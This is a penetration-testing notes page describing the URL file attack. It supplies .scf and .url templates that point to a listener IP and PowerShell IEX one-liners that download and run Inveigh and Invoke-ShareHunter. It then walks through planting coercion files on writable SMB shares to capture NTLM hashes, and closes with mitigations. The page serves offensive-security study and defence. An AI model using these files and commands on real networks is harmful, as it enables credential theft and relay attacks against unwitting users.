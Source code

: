 ```yaml
---
date: 
tags:
  - Windows
---
```


# URL File Attack

## Description

A URL file attack is a type of network-based exploit that manipulates certain file formats to deceive systems into revealing sensitive information, such as NTLM hashes. This attack exploits the behaviour of URL files (.url), shell command files (.scf), and other file types to initiate connections to an adversary-controlled listener.

An adversary generates files with specific content that directs systems to a network resource managed by the attacker. These files can be of different types, such as .url, .scf, or .lnk:

* **.url File:** A shortcut file that contains a URL pointing to a remote server.
* **.scf File:** A Shell Command File configured to initiate a connection to a remote server.
* **.lnk File:** A Windows shortcut file crafted to point to a remote server.

The attacker distributes these malicious files to potential victims through email attachments, file-sharing services, or other means. When a victim interacts with the file (e.g., opening the file or even just viewing it within explorer), the file triggers the system to connect to the remote server specified in the file.

During the connection attempt, the victim’s system tries to authenticate with the remote server using NTLM (Windows authentication protocol). The attacker’s server captures the NTLM hash, which can then be used for further attacks, such as pass-the-hash attacks.

This document covers delivery through means of SMB shares.

## File Templates

```Powershell 
[Shell]
Command=2
IconFile=\\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

```Powershell
[InternetShortcut]
URL=\\[Listener-IP]\share
```

## Performing the Attack from Windows

### Tools Required

* Inveigh: [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* Invoke-ShareHunter (Optional): [https://github.com/Leo4j/Invoke-ShareHunter](https://github.com/Leo4j/Invoke-ShareHunter)

### Permissions Required

* Local Administrator (If using Inveigh to capture hashes)
* Write permissions over a SMB share


Load Inveigh and configure listener

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# Load Inveigh and set listener IP (Attack System)
Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7
```

```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

# Identify writeable shares within the domain
Invoke-ShareHunter -Domain security.local

# Write NTLM coercion files to identified writeable shares
Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"
```

**Writing files to writeable shares**

![](../../Assets/Pasted%20image%2020250619212529.png)

**Later, a user browses to a share containing the crafted files and a NTLM hash is captured on the listener**

![](../../Assets/Pasted%20image%2020250619212707.png)

From this point, various opportunity exists to perform further compromise. The captured Hash may be cracked to reveal the underlying account password or the hash may be relayed using tools such as ntlmrelayx.;

## Mitigation

**Disable NTLM Authentication**

Disabling NTLM authentication within the domain is the most effective defence against this type of attack and other NTLM coercion-based attacks. However, it is understandable that disabling NTLM authentication within an enterprise may not be easily or quickly achievable for many organizations. In such cases, additional mitigations can be implemented. While these additional measures may not completely eliminate the attack vector, they can offer a degree of protection against this type of attack.

Reference: [https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787)


**Audit and restrict SMB share permissions**

URL file attacks are possible when an adversary controlled account has write access to SMB shares within the domain. The best defence here is to audit all SMB shares and remove unexpected or overly permissive write permissions from accounts that do not require that level of access. Broadly, domain user accounts often have write access to an undesirable number of shares within the enterprise and should be revoked.

## References

* [https://www.scip.ch/en/?labs.20210909](https://www.scip.ch/en/?labs.20210909)
* [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication)

# Resources

- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf

- [URL File Attack | Pentest Everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack)